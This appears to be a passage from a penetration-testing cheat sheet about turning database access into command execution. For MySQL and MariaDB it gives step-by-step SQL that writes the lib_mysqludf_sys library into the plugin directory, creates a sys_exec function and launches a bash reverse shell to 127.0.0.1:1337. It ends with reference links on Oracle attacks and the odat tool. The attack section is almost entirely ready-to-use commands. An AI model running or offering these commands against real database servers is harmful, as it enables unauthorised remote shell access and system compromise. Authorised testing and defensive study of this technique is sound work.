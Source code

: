 MySQL (x86 example):

```
mysql> use mysql;
mysql> create table pwn(line blob);
mysql> insert into pwn values(load_file('/tmp/lib_mysqludf_sys_x86.so'));
mysql> select * from pwn into dumpfile '/usr/lib/lib_mysqludf_sys_x86.so';

Or load it from hex:
mysql> set @pwn = '7F..00';
mysql> select unhex(@pwn) into dumpfile '/usr/lib/lib_mysqludf_sys_x86.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_x86.so';
mysql> select sys_exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");
```

MariaDB (x64 example):

```
MariaDB> show variables like '%plugin%';  # get lib path
MariaDB> use mysql;
MariaDB> create table pwn(line blob);
MariaDB> insert into pwn values(load_file('/tmp/lib_mysqludf_sys_x64.so'));
MariaDB> select * from pwn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_x64.so';

Or load it from hex:
MariaDB> set @pwn = 0x7F..00;
MariaDB> select binary @pwn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_x64.so';

MariaDB> create function sys_exec returns integer soname 'lib_mysqludf_sys_x64.so';
MariaDB> select sys_exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");
```




## Oracle

* [https://xakep.ru/2015/04/07/195-oracle-db/](https://xakep.ru/2015/04/07/195-oracle-db/)
* [https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)
* [https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)
* [http://www.red-database-security.com/wp/oracle_cheat.pdf](http://www.red-database-security.com/wp/oracle_cheat.pdf)



### odat

* [https://github.com/quentinhardy/odat/releases](https://github.com/quentinhardy/odat/releases/)

Install manually (depreciated):
